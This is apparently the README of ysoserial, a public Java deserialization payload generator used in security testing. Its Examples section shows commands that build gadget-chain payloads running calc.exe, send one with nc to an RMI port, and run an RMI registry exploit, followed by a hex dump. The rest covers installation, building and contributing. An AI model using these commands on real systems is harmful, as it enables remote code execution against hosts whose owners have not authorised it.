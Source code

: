 ## Examples

```shell
$ java -jar ysoserial.jar CommonsCollections1 calc.exe | xxd
0000000: aced 0005 7372 0032 7375 6e2e 7265 666c  ....sr.2sun.refl
0000010: 6563 742e 616e 6e6f 7461 7469 6f6e 2e41  ect.annotation.A
0000020: 6e6e 6f74 6174 696f 6e49 6e76 6f63 6174  nnotationInvocat
...
0000550: 7672 0012 6a61 7661 2e6c 616e 672e 4f76  vr..java.lang.Ov
0000560: 6572 7269 6465 0000 0000 0000 0000 0000  erride..........
0000570: 0078 7071 007e 003a                      .xpq.~.:

$ java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
$ nc 10.10.10.10 1099 < groovypayload.bin

$ java -cp ysoserial.jar ysoserial.exploit.RMIRegistryExploit myhost 1099 CommonsCollections1 calc.exe
```

## Installation

[![GitHub release](https://img.shields.io/github/downloads/frohoff/ysoserial/latest/total)](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar)

Download the [latest release jar](https://github.com/frohoff/ysoserial/releases/latest/download/ysoserial-all.jar) from GitHub releases.

## Building

Requires Java 1.7+ and Maven 3.x+

```mvn clean package -DskipTests```

## Code Status

[![Build Status](https://travis-ci.org/frohoff/ysoserial.svg?branch=master)](https://travis-ci.org/frohoff/ysoserial)
[![Build status](https://ci.appveyor.com/api/projects/status/a8tbk9blgr3yut4g/branch/master?svg=true)](https://ci.appveyor.com/project/frohoff/ysoserial/branch/master)

## Contributing

1. Fork it
2. Create your feature branch (`git checkout -b my-new-feature`)
3. Commit your changes (`git commit -am 'Add some feature'`)
4. Push to the branch (`git push origin my-new-feature`)
5. Create new Pull Request

## See Also
* [Java-Deserialization-Cheat-Sheet](https://github.com/GrrrDog/Java-Deserialization-Cheat-Sheet): info on vulnerabilities, tools, blogs/write-ups, etc.
* [marshalsec](https://github.com/frohoff/marshalsec): similar project for various Java deserialization formats/libraries
* [ysoserial.net](https://github.com/pwntester/ysoserial.net): similar project for .NET deserialization

